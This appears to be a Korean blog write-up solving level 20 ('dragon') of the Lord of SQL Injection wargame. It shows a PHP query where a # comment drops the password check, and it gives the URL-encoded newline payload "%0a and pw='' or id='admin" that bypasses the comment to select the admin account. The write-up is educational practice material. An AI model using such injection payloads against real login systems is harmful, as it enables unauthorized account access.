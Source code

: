 ```yaml
---
title: LOS - 20번 dragon
category: Lord of SQL Injection
---
```


# [20] dragon

## 문제
<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FdVPRAK%2FbtrnP7hVFzh%2FQKtIyj2XkRhpCJhBS1Kuv1%2Fimg.png">

## 풀이
주어진 쿼리문을 보겠다.

```php
$query = "select id from prob_dragon where id='guest'# and pw='{$_GET[pw]}'";
```

첫번째 조건절 뒤에 #을 넣어서 뒷부분을 날려버리고 있다.

<br>

스터디 초반에 로그인 로직 5가지 유형을 개발할 때, 조건절이 개행 처리된 쿼리에는 주석을 주입해도 원하는대로 처리되지 않음을 경험했었다.

이 점에 착안해서 개행 문자를 이용해주면 될 것 같다.

<br>

즉, 쿼리문을 다음과 같이 변조할 생각이다.


```php
$query = "select id from prob_dragon where id='guest'# and pw='
	    and pw='' or id='admin'";
```

<br>

위 쿼리문은 다음 쿼리문과 동일하게 동작한다.

```php
$query = "select id from prob_dragon where (id='guest' and pw='') or id='admin'";
```

따라서 정상적으로 admin 계정을 fetch 해오게 된다.

<br> 

개행 문자인 \n 은 url encoding을 거쳐 **%0a**로 입력해준다.

<br>

입력할 답은 다음과 같다.

```
%0a and pw='' or id='admin
```

## 결과
<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FcVwX0y%2FbtrnPk3bf4W%2FN4kYfakdGJ6KpZu0buH111%2Fimg.png">